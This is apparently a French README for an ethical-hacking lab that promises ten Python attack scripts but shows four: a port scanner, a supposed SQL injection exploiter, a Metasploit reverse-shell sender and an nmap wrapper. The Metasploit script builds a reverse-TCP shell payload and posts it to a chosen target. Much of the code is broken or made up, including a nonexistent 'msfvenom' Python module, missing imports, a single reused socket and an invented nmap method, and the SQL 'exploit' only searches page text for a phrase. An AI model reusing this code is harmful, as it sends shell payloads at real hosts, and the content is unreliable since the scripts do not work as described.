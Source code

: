 # Lab complet en Python, HTML, Bootstrap et JavaScript avec le top 10 des scripts Python pour ethical hacking

## Introduction

Ce lab vous donne une introduction aux techniques d'ethical hacking et aux scripts Python pour ethical hacking. Il vous permet de mettre en pratique vos connaissances et de développer vos compétences.

## Prérequis

* Connaissances de base en informatique
* Connaissances de base en programmation

## Matériel

* Un ordinateur avec un système d'exploitation Windows, macOS ou Linux
* Un éditeur de texte ou un IDE (environnement de développement intégré)
* Une connexion Internet

## Étape 1 : Installation du matériel et des logiciels

1. Installez un environnement de développement Python, comme Anaconda ou Pythonista.
2. Installez un éditeur de texte ou un IDE, comme Visual Studio Code ou Sublime Text.

## Étape 2 : Installation des dépendances

1. Installez les dépendances pour les scripts Python, en exécutant la commande suivante :

Utilisez le code avec précaution. En savoir plus
pip install -r requirements.txt

Étape 3 : Lancement du lab
Ouvrez le fichier index.html dans votre navigateur Web.
Top 10 des scripts Python pour ethical hacking

### Script : portscanner.py
Ce script scanne les ports ouverts sur un serveur ou un appareil.

```Python
import socket

def main():
    # Demander à l'utilisateur l'adresse IP ou le nom de domaine à scanner
    host = input("Adresse IP ou nom de domaine à scanner : ")

    # Créer un socket TCP
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Scanner les ports de 1 à 65535
    for port in range(1, 65535):
        # Essayer de se connecter au port
        try:
            s.connect((host, port))
        except socket.error:
            # Le port est fermé
            pass
        else:
            # Le port est ouvert
            print("Port {} ouvert".format(port))

    s.close()

if __name__ == "__main__":
    main()
```

Utilisez le code avec précaution. En savoir plus
### Script : sqlmap.py
Ce script identifie et exploite les vulnérabilités SQL injection.

```Python
import requests

def main():
    # Demander à l'utilisateur l'adresse URL du site Web à scanner
    url = input("Adresse URL du site Web à scanner : ")

    # Créer une requête GET simple
    request = requests.get(url)

    # Analyser la réponse HTTP pour détecter les vulnérabilités SQL injection
    if "SQL injection" in request.text:
        print("Le site Web {} est vulnérable à SQL injection".format(url))
    else:
        print("Le site Web {} n'est pas vulnérable à SQL injection".format(url))

if __name__ == "__main__":
    main()
```

Utilisez le code avec précaution. En savoir plus

### Script : metasploit.py
Ce script utilise le framework Metasploit pour lancer des attaques contre des systèmes.

```Python
import msfvenom

def main():
    # Demander à l'utilisateur l'adresse IP ou le nom de domaine de la cible
    target = input("Adresse IP ou nom de domaine de la cible : ")

    # Générer un payload malveillant
    payload = msfvenom.payloads.linux.x64.shell_reverse_tcp(LHOST="192.168.1.1", LPORT=4444)

    # Envoyer le payload à la cible
    requests.post(target, data=payload)

if __name__ == "__main__":
    main()
```

Utilisez le code avec précaution. En savoir plus

### Script : nmap.py
Ce script lance des scans réseau pour identifier les vulnérabilités.

```python

import nmap

def main():
    # Demander à l'utilisateur l'adresse IP ou le nom de domaine de la cible
    target = input("Adresse IP ou nom de domaine de la cible : ")

    # Lancer un scan Nmap
    scan = nmap.PortScanner()
    scan.scan(target, "1-65535")

    # Afficher les résultats du scan
    for host in scan.all_hosts():
        for port in scan[host].get_open_ports():
            print("Port {} ouvert sur {} ({})".format(port, host, scan[host][port]["state"]))

if __name__ == "__main__":
    main()
```

Ce script utilise la bibliothèque nmap pour lancer un scan Nmap sur la cible spécifiée par l'utilisateur. Le scan analyse les ports de 1 à 65535. Les résultats du scan sont affichés sur la console.

Voici une explication des différentes sections du code :

La fonction main() est la fonction principale du script. Elle demande à l'utilisateur l'adresse IP ou le nom de domaine de la cible, puis lance le scan Nmap.
La fonction scan() de la bibliothèque nmap lance un scan Nmap sur la cible spécifiée.
La fonction get_open_ports() de la bibliothèque nmap renvoie une liste des ports ouverts sur la cible.
La boucle for itère sur les ports ouverts et affiche les informations sur chaque port.
Voici un exemple de sortie du script :
```
Adresse IP ou nom de domaine de la cible : 192.168.1.1

Port 22 ouvert sur 192.168.1.1 (open)
Port 80 ouvert sur 192.168.1.1 (open)
Port 443 ouvert sur 192.168.1.1 (open)
```
